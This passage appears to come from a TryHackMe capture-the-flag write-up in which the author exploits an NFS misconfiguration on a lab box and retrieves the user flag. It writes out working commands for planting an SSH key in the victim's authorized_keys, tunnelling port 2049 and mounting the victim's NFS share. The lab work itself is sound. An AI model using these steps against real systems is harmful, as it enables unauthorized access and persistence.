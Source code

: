 ```
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100005    2   tcp  20048  mountd
    100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100024    1   udp  37961  status
    100024    1   tcp  49915  status
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100021    1   udp  49585  nlockmgr
    100021    3   udp  49585  nlockmgr
    100021    4   udp  49585  nlockmgr
    100021    1   tcp  40111  nlockmgr
    100021    3   tcp  40111  nlockmgr
    100021    4   tcp  40111  nlockmgr
```
It looks like NFS is vulnerable to privilege escalation through a misconfiguration (https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe). My best option is to try to connect to one of the nfs at port 2049. But, I am not able to do so remotely. I need to forward an NFS connection over to my remote/attacker machine via ssh. It is eaiser since I already have a user (paradox) on the victim machine. 

First, I will create a similar paradox user on my local/attack machine and copy the key over so that it is authorized to login via ssh. 
```
ssh-keygen -f paradox
```
I also need to add the paradox ssh key to the authorized hosts on the remote/victim machine. 
```
echo "ssh-rsa [KEY]" > .ssh/authorized_keys
```
With the paradox public key in authorized keys and the private key for paradox, I am able to ssh into the machine using port forwarding on port 2049 on both my attack machine and the victim machine. I needed to use port 2049 because I want to set up an NFS on my localhost at the appropriate port. Therefore, I want to forward any connection on port 2049 to port 2049 on my local machine over ssh. Once connected, it will give me a shell with ssh. 
```
ssh paradox@[Remote IP] -i paradox -L 2049:localhost:2049
```
Now, I created a mnt directory in my attack machine so that I can mount the NFS from the victim. I used the mount command to connect the two.  
```
sudo mount -v -t nfs localhost:/ ./mnt/
```
Finally, I went to the mnt directory in my local machine and found the user flag. The mnt directory on my attack machine is really the home directory of paradox user now. 
```
ajread@aj-ubuntu:~/TryHackMe/practice/mnt$ ls
user.flag
```
